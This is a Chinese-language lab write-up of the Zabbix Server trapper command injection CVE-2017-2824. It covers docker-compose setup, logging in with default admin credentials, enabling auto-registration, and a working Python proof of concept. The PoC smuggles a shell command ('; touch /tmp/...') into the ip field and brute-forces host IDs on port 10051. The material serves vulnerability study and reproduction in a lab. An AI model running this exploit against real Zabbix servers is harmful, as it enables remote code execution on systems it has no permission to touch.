

# Zabbix Server trapper命令注入漏洞 CVE-2017-2824

## 漏洞描述

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。其Server端 trapper command 功能存在一处代码执行漏洞，特定的数据包可造成命令注入，进而远程执行代码。攻击者可以从一个Zabbix proxy发起请求，从而触发漏洞。

参考链接：

- https://talosintelligence.com/reports/TALOS-2017-0325

## 环境搭建

Vulhub执行如下命令启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库：

```
docker-compose up -d
```

命令执行后，执行`docker-compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker-compose up -d`。

利用该漏洞，需要你服务端开启了自动注册功能，所以我们先以管理员的身份开启自动注册功能。访问`http://your-ip:8080/index.php`，使用账号密码`admin/zabbix`登录后台，进入Configuration->Actions，将Event source调整为Auto registration，然后点击Create action，创建一个Action，名字随意：



第三个标签页，创建一个Operation，type是“Add Host”：


保存。这样就开启了自动注册功能，攻击者可以将自己的服务器注册为Agent。

## 漏洞复现

使用这个简单的POC来复现漏洞：

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/awesome_poc"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

查看到如下结果时，则说明命令执行成功：


进入server容器，可见`/tmp/awesome_poc`已成功创建：


